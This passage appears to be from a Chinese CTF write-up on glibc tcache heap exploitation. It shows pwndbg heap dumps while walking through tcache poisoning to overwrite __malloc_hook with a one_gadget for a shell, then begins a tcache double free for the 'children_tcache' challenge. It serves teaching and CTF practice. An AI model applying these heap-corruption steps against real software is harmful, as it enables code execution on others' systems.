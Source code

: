 程序逻辑十分清晰，一共七次机会进行new、free、write的操作来getshell，由于除了次数没有任何限制，所以我们能很直接的体会到tcache机制所带来的安全方面问题，我们先做个标准的tcache_poisoning起手式，先放一个堆块到tcache_entry

```bash
pwndbg> heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x556b70596270 (size : 0x20d90) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0
(0x20)   tcache_entry[0]: 0x556b70596260
```

接着我们通过write操作去修改一下tcache_next为&malloc_hook

```bash
pwndbg> heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x556b70596270 (size : 0x20d90) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0
(0x20)   tcache_entry[0]: 0x556b70596260 --> 0x7f2d9da10c10 (&__malloc_hook)
```

接着new两次把tcache从取出并把malloc_hook修改成one_gadget后new一个新chunk触发malloc_hook就可以getshell了，很简单又直接的题目吧。

我们回到children_tcache，先做个tcache_dup，也就是对我们之前插在两个unsort_bin中间的chunk进行两次free

```bash
pwndbg> parseheap
addr                prev                size                 status              fd                bk 
0x564f27df9000      0x0                 0x250                Used                None              None
0x564f27df9250      0x0                 0x510                Used                None              None
0x564f27df9760      0x510               0x30                 Used                None              None
0x564f27df9790      0xdadadadadadadada  0x4f0                Freed     0x7fa26b599c78    0x7fa26b599c78
0x564f27df9c80      0x4f0               0x20                 Used                None              None
pwndbg> heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
```